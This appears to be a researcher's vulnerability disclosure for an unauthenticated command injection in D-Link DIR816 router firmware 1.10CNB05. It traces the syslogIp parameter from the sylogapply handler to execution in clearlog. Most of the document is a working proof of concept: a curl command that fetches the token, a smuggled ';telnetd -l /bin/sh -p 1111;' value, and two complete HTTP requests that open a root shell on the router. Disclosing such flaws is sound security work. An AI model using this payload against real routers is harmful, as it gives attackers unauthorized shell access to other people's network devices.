



# D-Link Vulnerability

Vendor:D-Link

Product:DIR816

Version:1.10CNB05

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an command Injection vulnerability in D-Link router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.（without authentication）

Gets the token ID.

```
curl http://192.168.1.1/dir_login.asp | grep tokenid
```

**Remote Command Execution**

In `goahead` binary:

In `sylogapply` function, `syslogIp` is directly passed by the attacker, so we can control the `syslogIp` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"></div>

Eventually, in `clearlog` function, the initial input will be extracted and cause command injection.

<div  align="center"></div>

Vulnerability trigger steps:

* set `syslogIp`=**;telnetd -l /bin/sh -p 1111;**, in (`sylogapply`)
* Trigger the vulnerability, in (`clearlog`)

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

set `syslogIp`=**;telnetd -l /bin/sh -p 1111;**, in (`sylogapply`)

```http
POST /goform/sylogapply HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/d_acl.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

syslogIp=;telnetd -l /bin/sh -p 1111;&remotesyslog=1&tokenid=1714636915
```

Trigger the vulnerability, in (`clearlog`)

```http
POST /goform/clearlog HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/d_acl.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

tokenid=1957747793
```


## Result

Get a shell!

<div  align="center"></div>

